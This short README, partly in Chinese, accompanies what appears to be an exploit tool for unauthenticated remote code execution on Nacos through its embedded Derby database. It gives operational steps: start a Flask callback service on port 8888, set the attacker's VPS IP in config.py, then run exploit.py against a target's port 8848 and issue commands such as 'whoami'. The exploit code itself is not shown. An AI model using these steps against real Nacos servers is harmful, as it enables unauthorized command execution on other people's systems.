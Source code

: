 nacos derby removal unauth rce exp

改动启动flask的ip+port为固定、输出post_json

```
app.run('0.0.0.0', 8888)
```

使用：

```
pip3 install -r requirements.txt
python3 service.py 启动flask服务
```

更改config.py中
server_host = "vps ip"

```
server_host='服务器ip'
server_port无需更改
```

执行exploit.py：

```
python3 exploit.py
http://x.x.x.x:8848
whoami
```

